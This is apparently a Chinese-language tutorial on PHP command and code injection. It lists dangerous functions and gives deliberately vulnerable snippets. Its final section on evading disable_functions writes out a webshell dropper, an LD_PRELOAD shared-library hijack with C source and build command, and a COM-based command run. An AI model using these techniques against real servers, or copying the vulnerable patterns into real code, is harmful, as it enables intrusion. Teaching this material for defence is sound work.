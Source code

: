 # 命令注入&代码注入


## 0x00 Introduction

## 0x01 危险函数
以下PHP函数若直接使用未过滤的用户输入，可能导致命令注入。

### 1. 执行系统命令
```
system("command");        // 直接输出结果
exec("command", $output); // 返回最后一行结果
passthru("command");      // 直接输出二进制数据
shell_exec("command");    // 返回字符串结果
`command`;                // 反引号等效于shell_exec
```

### 2.代码执行
```
eval()
assert()
create_function()（已弃用）
```

### 3.进程控制
```
proc_open()
popen()
```

### 4. 动态函数执行

用户自定义的函数可以导致代码执行。

```php
<?php
$dyn_func = $_GET["dyn_func"];
$argument = $_GET["argument"];
$dyn_func($argument);
?>
```

### 5. ${} 

PHP 的 Curly Syntax 也能导致代码执行，它将执行花括号间的代码，并将结果替换回去。

```php
<?php
$var = "aaabbbccc ${`ls`}";
?>
```

```php
<?php
$foobar = "phpinfo";
${"foobar"}();
?>
```

### 6.回调函数

很多函数都可以执行回调函数，当回调函数用户可控时，将导致代码执行。

```
array_map()
call_user_func()
all_user_func_array ()
```

```php
<?php
$evil_callback = $_GET["callback"];
$some_array = array(0,1,2,3);
$new_array = array_map($evil_callback, $some_array);
?>
```

### 7. 其它潜在风险函数：
```
mail()           // 第五个参数可能注入Sendmail命令
preg_replace()   // 使用/e修饰符时可能执行代码（PHP <5.5）
```



## 0x02 漏洞代码

```php
// 漏洞代码（未过滤用户输入）
$ip = $_GET['ip'];
system("ping -c 1 " . $ip);
```


## 0x03 防御绕过技巧 

### disable_functions 
在PHP安全中，disable_functions 是一种通过限制敏感函数调用来增强安全性的机制，但攻击者仍可能通过其他方式绕过这些限制。

在 php.ini 中配置 disable_functions，列出需要禁用的函数，例如：

```ini
disable_functions = system, exec, passthru, shell_exec, popen, proc_open
```
绕过 disable_functions 的常见方法:

#### 1. 利用未禁用的函数或扩展
- 文件操作函数
```php
// 通过写入Webshell间接执行命令
file_put_contents('shell.php', '<?php system($_GET["cmd"]); ?>');
```
- 反序列化漏洞   
通过反序列化触发 __destruct() 或 __wakeup() 中的危险操作。
#### 2. 利用环境变量注入（LD_PRELOAD）
原理：通过劫持共享库加载过程，在PHP子进程中执行恶意代码。    
利用：   
①编写恶意C代码：
```c
// evil.c
#include <stdlib.h>
#include <stdio.h>
void _init() {
    unsetenv("LD_PRELOAD");
    system("id > /tmp/exploit");
}
```
②编译为共享库：
```
gcc -shared -fPIC evil.c -o evil.so
```
③通过PHP触发加载：

```
putenv("LD_PRELOAD=/path/to/evil.so");
```
#### 3. 利用PHP扩展漏洞
- PHP-FPM未授权访问：通过构造FastCGI协议执行命令。
- PHP COM组件（Windows）：调用Windows COM对象。
```php
$wsh = new COM("WScript.Shell");
$wsh->Run("cmd.exe /c whoami");
```
